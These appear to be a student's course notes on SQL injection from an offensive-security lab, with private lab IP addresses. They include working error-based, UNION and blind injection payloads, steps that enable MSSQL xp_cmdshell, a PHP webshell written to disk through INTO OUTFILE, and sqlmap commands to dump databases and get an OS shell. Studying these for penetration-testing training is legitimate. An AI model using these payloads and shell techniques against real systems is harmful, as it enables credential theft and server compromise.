 
## 10.1 Theory and Databases

##### Theory Refresher
- SQL databses are relational
- Most popular brands are MySQL, MSSQL, PostgreSQL, and Oracle
- Front end websites automate querying of SQL databses to save time
- SQL injection is exploitation of unsanitzed chracters in automated input fields

```
//Generic select query
SELECT * FROM users WHERE user_name='leon`
```


## 5.2 Manual SQL Injection

##### Identifying SQLi via Error-based Payloads
- identify vulnerable input fields 
- escape character sanitization and progressivly test the database
- common escape:
	- `offsec' OR 1=1 -- //`
	- -- and // terminate SQL statement 

Steps
1. Identify login form
2. Attempt error-based input 
3. Query version information 
4. Start progressivly more targeted queries (may throw column error)

```
2. offsec' OR 1=1 -- //

3. ' or 1=1 in (select @@version) -- //

4. ' OR 1=1 in (SELECT * FROM users) -- //  

4. ' or 1=1 in (SELECT password FROM users) -- //

4. ' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```


##### Union-based Payloads
- UNION aids exploitation by allowing extra SELECT statement to concatenate two queries into one
- query needs to match exact columns of the queried table
	- check with `' ORDER BY 1-- //`  (increment number and wait till error)
- query datatypes also important, need to match query data type with displayed front end data type (integer vs string)

Steps:
1. Identify number of columns
2. Initial query 
3. Move datatypes around for correct data presentation
4. Query other tables 
5. Target useful information

```
1. ' ORDER BY <1,2,3,4,5>-- //

2. ' UNION SELECT database(), user(), @@version, null, null -- //

3. ' UNION SELECT null, null, database(), user(), @@version  -- //

4. ' UNION SELECT null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //

5. ' UNION SELECT null, username, password, description, null FROM users -- //

```


##### Blind SQL Injections
- Previous SQLi attacks have been in band (we can view displayed contents inside the web app)
- Blind SQL injections use time based logic or booleans to infer database behaviour 

Steps
1. Test for boolean-based SQLi
2. Use logic payloads to enumerate whether a user exists 

```
1. http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //

2. http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```


## 5.3 Manual and Automated Code Execution

##### Intro 
- Exploit MSSQL with xp_cmdshell
- Automate SQL injection with SQLmap
- Depending on OS, privs, and filesystem, can read and write files to underlying OS (potentially with full code execution)

##### Manual Code Execution
- xp_cmdshell function takes string and passes it to cmd for execution on target
	- function disabled by default
	- once enabled, need to call with EXECUTE insteade of SELECT
- Need appropriate account permissions 

Steps:
1. Connect to MSSQL with impacket
2. Enable xp_cmdshell 
3. Test command execution
4. Upgrade to standard reverse shell
	1. Upload php webshell to tmp dir on target via traditional SQLi (relies on SELECT INTO_OUTFILE vulnerability to write command as a file to target)
	2. Use original user input form
5. Test command execution using firefox searchbar

```
1. impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth

2. SQL> EXECUTE sp_configure 'show advanced options', 1;
   SQL> RECONFIGURE;
   SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
   SQL> RECONFIGURE;

3. SQL> EXECUTE xp_cmdshell 'whoami';

4. ' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

5. http://192.168.120.19/tmp/webshell.php?cmd=id
```


##### Automating the Attack
- Sqlmap can identify and exploit SQL vulnerabilities
- can be used to dump databse or get code execution

Steps (data dump):
1. Connect to URL with dummy variable (1) and parameter you want to test (gets fingerprinting info)
2. Dump databse

```
1. sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user

2. sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
```

Steps (shell):
1. Start Burp
2. Send request to input filed with HTTP proxy on
3. Save HTTP request to a text file
4. Use Sqlmap with HTTP request as input 

```
4. sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```

Example HTTP POST request 
```
POST /search.php HTTP/1.1
Host: 192.168.50.19
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://192.168.50.19
Connection: close
Referer: http://192.168.50.19/search.php
Cookie: PHPSESSID=vchu1sfs34oosl52l7pb1kag7d
Upgrade-Insecure-Requests: 1

item=test
```